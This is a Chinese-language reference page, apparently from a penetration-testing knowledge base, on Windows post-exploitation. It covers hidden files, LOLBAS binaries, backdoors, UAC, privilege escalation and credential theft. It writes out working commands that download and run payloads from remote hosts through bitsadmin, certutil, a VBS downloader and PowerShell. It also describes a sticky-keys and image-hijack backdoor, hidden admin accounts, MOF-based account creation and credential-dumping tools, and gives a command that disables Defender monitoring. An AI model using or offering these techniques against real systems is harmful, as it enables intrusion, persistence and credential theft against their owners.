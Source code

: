 持久化 - Windows
========================================

隐藏文件
----------------------------------------
- 创建系统隐藏文件
    - ``attrib +s +a +r +h filename`` / ``attrib +s +h filename``
- 利用NTFS ADS (Alternate　Data　Streams) 创建隐藏文件
- 利用Windows保留字
    - ``aux|prn|con|nul|com1|com2|com3|com4|com5|com6|com7|com8|com9|lpt1|lpt2|lpt3|lpt4|lpt5|lpt6|lpt7|lpt8|lpt9``

LOLBAS
----------------------------------------

定义
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
LOLBAS，全称Living Off The Land Binaries and Scripts (and also Libraries)，是一种白利用方式，是在2013年DerbyCon由Christopher Campbell和Matt Graeber发现，最终Philip Goh提出的概念。

这些程序一般有有Microsoft或第三方认证机构的签名，但是除了可以完成正常的功能，也能够被用于内网渗透中。这些程序可能会被用于：下载安全恶意程序、执行恶意代码、绕过UAC、绕过程序控制等。

常见程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- bitsadmin.exe
	+ 下载文件:``bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"``
- cdb.exe
- certutil.exe
    + 下载文件:``certutil -urlcache -split -f http://192.168.203.140/b.exe``
- cmd.exe
- cmstp.exe
- csc.exe
- cscript.exe
	+ 第一种
	
	::
	
		echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
		echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
		echo Post.Open "GET","http://192.168.203.140/a.ps1",0 >>download.vbs
		echo Post.Send() >>download.vbs
		echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
		echo aGet.Mode = 3 >>download.vbs
		echo aGet.Type = 1 >>download.vbs
		echo aGet.Open() >>download.vbs
		echo aGet.Write(Post.responseBody) >>download.vbs
		echo aGet.SaveToFile "D:/a.ps1",2 >>download.vbs
	
	+ 第二种：``echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2  >> downfile.vbs``
	+ 下载文件：``cscript downfile.vbs http://192.168.203.140/a.ps1 D:\\tomcat8.5\\webapps\\x.ps1``
	
- expand.exe
    + 展开一个或多个压缩文件
- mofcomp.exe
- msbuild.exe
    + 构建应用程序
- mshta.exe
- netsh.exe
- installutil.exe
    + 安装/卸载程序组件
- powershell.exe
	+ 下载文件:``powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://45.32.1.7:80/download/file.exe','d:\yayou\Web\RYFront\system.exe')``
	+ 下载文件:``powershell (new-object Net.WebClient).DownloadFile('http://192.168.203.140/a.ps1','E:\phpstudy_pro\WWW\a.ps1')``
	+ 执行程序:``powershell Start-Process d:\yayou\Web\RYFront\system.exe``
- psexec.exe
- reg.exe
- regedit.exe
- regsvr32.exe
- rundll32.exe
- sc.exe
- schtasks.exe
- wmic.exe
- windbg.exe
- wscript.exe

后门
----------------------------------------

sethc
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``sethc.exe`` 是 Windows系统在用户按下五次shift后调用的粘滞键处理程序，当有写文件但是没有执行权限时，可以通过替换 ``sethc.exe`` 的方式留下后门，在密码输入页面输入五次shift即可获得权限。

映像劫持
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在高版本的Windows中，替换程序是受到系统保护的，需要使用其他的技巧来实现替换。

具体操作为在注册表的 ``HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Option`` 下添加项 ``sethc.exe`` ，然后在 ``sethc.exe`` 这个项中添加 ``debugger`` 键，键值为恶意程序的路径。

定时任务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows下有 ``schtasks`` 和 ``at`` 两种计划任务机制。 其中 ``at`` 在较高版本的Windows中已经弃用。

登录脚本
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以在用户登录前执行脚本，使用 ``HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`` 设置。

屏幕保护程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以自定义屏幕保护程序，使用 ``HKEY_CURRENT_USER\Control Panel\Desktop`` 设置。

隐藏用户
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Windows可以使用在用户名后加入 ``$`` 来创建匿名用户，这种方式创建的用户只能通过注册表查看。

CLR
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CLR (Common Language Runtime Compilation) 公共语言运行时，是微软为.NET产品构建的运行环境，可以粗略地理解为.NET虚拟机。

.NET程序的运行离不开CLR，因此可以通过劫持CLR的方式实现后门。

UAC
----------------------------------------

简介
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
UAC (User Account Control) 是Windows的一个安全机制，当一些敏感操作发生时，会跳出提示显式要求系统权限。

当用户登陆Windows时，每个用户都会被授予一个access token，这个token中有security identifier (SID) 的信息，决定了用户的权限。

会触发UAC的操作
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 以管理员权限启动应用
- 修改系统、UAC设置
- 修改没有权限的文件或者目录（ %SystemRoot% / %ProgramFiles% 等 ） 
- 修改ACL (access control list)
- 安装驱动
- 增删账户，修改账户类型，激活来宾账户

自启动
----------------------------------------
通过在注册表中写入相应的键值可以实现程序的开机自启动，主要是 ``Run`` 和 ``RunOnce`` ，其中RunOnce和Run区别在于RunOnce的键值只作用一次，执行完毕后会自动删除。

权限提升
----------------------------------------
权限提升有多重方式，有利用二进制漏洞、逻辑漏洞等技巧。利用二进制漏洞获取权限的方式是利用运行在内核态中的漏洞来执行代码。比如内核、驱动中的UAF或者其他类似的漏洞，以获得较高的权限。

逻辑漏洞主要是利用系统的一些逻辑存在问题的机制，比如有些文件夹用户可以写入，但是会以管理员权限启动。

提权辅助工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://i.hacking8.com/tiquan/

任意写文件利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Windows中用户可以写的敏感位置主要有以下这些

+ 用户自身的文件和目录，包括 ``AppData`` ``Temp``
+ ``C:\`` ，默认情况下用户可以写入
+ ``C:\ProgramData`` 的子目录，默认情况下用户可以创建文件夹、写入文件
+ ``C:\Windows\Temp`` 的子目录，默认情况下用户可以创建文件夹、写入文件

具体的ACL信息可用AccessChk, 或者PowerShell的 ``Get-Acl`` 命令查看。

可以利用对这些文件夹及其子目录的写权限，写入一些可能会被加载的dll，利用dll的加载执行来获取权限。

MOF
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
MOF是Windows系统的一个文件（ ``c:/windows/system32/wbem/mof/nullevt.mof`` ）叫做"托管对象格式"，其作用是每隔五秒就会去监控进程创建和死亡。

当拥有文件上传的权限但是没有Shell时，可以上传定制的mof文件至相应的位置，一定时间后这个mof就会被执行。

一般会采用在mof中加入一段添加管理员用户的命令的vbs脚本，当执行后就拥有了新的管理员账户。

凭证窃取
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Windows本地密码散列导出工具
    - mimikatz
    - lsass
    - wce
    - gsecdump
    - copypwd
    - Pwdump
    - ProcDump
        - https://docs.microsoft.com/en-us/sysinternals/downloads/procdump
- Windows本地密码破解工具
    - L0phtCrack
    - SAMInside
    - Ophcrack
- 彩虹表破解
- 本机hash+明文抓取
- win8+win2012明文抓取
- ntds.dit的导出+QuarkPwDump读取分析
- vssown.vbs + libesedb + NtdsXtract
- ntdsdump
- 利用powershell(DSInternals)分析hash
- 使用 ``net use \\%computername% /u:%username%`` 重置密码尝试次数
- 限制读取时，可crash操作系统后，在蓝屏的dump文件中读取

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 组策略首选项漏洞
- DLL劫持
- 替换系统工具，实现后门
- 关闭defender
    - ``Set-MpPreference -disablerealtimeMonitoring $true``
